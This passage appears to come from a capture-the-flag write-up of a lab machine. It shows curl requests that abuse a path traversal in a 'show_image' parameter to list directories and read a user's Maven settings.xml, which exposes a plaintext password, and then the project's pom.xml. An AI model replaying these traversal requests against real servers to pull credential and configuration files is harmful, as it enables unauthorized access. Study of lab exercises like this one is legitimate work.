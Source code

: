 Pretty weird this is, this parameter is even doing directory listing.

```bash
❯ curl "http://10.129.35.27:8080/show_image?img=../../../../../../../home"
frank
phil
```

from web app directory, figure out it is a apache maven webApp.

```bash
❯ curl "http://10.129.35.27:8080/show_image?img=../../../../../../var/www/WebApp"
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
targe
```

Maven Webapp directory structure - https://maven.apache.org/archetypes/maven-archetype-webapp/

maven project Settings file - https://maven.apache.org/settings.html

```xml
❯ curl "http://10.129.35.27:8080/show_image?img=../../../../../../home/frank/.m2/settings.xml"
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

ssh key is not there and password also not working.

If we look at the project config file `pom.xml`

```xml
❯ curl http://10.129.35.27:8080/show_image\?img\=../../../../../../var/www/WebApp/pom.xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
```